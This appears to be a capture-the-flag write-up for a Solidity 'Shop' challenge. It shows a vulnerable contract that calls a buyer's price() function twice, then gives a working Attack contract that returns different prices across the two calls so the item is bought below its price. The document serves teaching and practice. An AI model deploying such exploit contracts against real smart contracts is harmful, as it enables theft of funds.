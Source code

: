 Objective:
Buy the item from the Shop contract for less than 100.

<details>
<summary>See the original contract</summary>

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
interface Buyer {
    function price() external view returns (uint256);
}

contract Shop {
    uint256 public price = 100;
    bool public isSold;
    function buy() public {
        Buyer _buyer = Buyer(msg.sender);
        if (_buyer.price() >= price && !isSold) {
            isSold = true;
            price = _buyer.price();
        }
    }
}
</details>

Expalanation:
```
if (_buyer.price() >= price && !isSold) {
            isSold = true;
            price = _buyer.price();
```
If we check this if condition we clearly see that the price funtion is called twice, so what we can do is that during the first call we can return 100 and during the second call we can return a lesser value and this we can check with the isSold function that we make in our helper contract.

Solution:
Below is the helper contract.
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Shop {
    function buy() external;
    function isSold() external view returns (bool);

}

contract Attack {
    Shop shop;
   constructor (address _target) {
    shop = Shop(_target);
   }
   function price() external view returns (uint256) {
        return shop.isSold() ? 1 : 100;
    }

    function attack() external {
        shop.buy();
    }
}
```
After deploying this helper contract call the attack function after which the level will be cleared.

Key Takeaways:
The contract thinks that the price() will be constant but as it is called twice we switch its behaviour between the calls.
